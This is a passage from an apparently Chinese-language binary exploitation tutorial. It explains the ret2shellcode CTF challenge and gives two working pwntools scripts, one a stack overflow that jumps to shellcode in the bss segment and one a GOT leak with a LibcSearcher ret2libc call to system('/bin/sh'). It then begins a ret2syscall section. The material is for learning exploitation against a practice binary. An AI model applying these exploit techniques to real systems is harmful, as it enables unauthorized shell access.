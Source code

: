 结果可知部分地址可执行，所以就可以控制程序执行 shellcode，也就是读入 shellcode，然后控制程序执行 bss 段处的 shellcode。

```python
    # shellcode
    from pwn import *

    p = process('./ret2shellcode')
    shellcode = asm(shellcraft.sh())
    buf2_addr = 0x0804A080

    p.recvuntil("No system for you this time !!!")
    payload = shellcode.ljust((0x6c+4),'A') + p32(buf2_addr)
    p.sendline(payload)
    sleep(1)
    p.interactive()
    # 其他解法
    from pwn import *
    from LibcSearcher import *

    p = process('./ret2shellcode')
    elf = ELF('./ret2shellcode')
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    log.info('puts_plt = %#x, puts_got = %#x'%(puts_plt,puts_got))

    p.recvuntil("No system for you this time !!!")
    payload = 'A'*(0x6c+4)
    payload += p32(puts_plt) + p32(0x08048430) + p32(puts_got)
    p.sendline(payload)

    p.recvuntil("bye bye ~")
    puts_addr = u32(p.recv(4))
    log.info('puts_addr = %#x',puts_addr)

    libc = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    log.info('system_addr = %#x, binsh_addr = %#x'%(system_addr,binsh_addr))

    p.recvuntil('No system for you this time !!!')
    payload = 'A'*(0x6c+4)
    payload += p32(system_addr) + p32(0x08048430) + p32(binsh_addr)
    p.sendline(payload)
    sleep(1)
    p.interactive()
```

## ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。
例子，
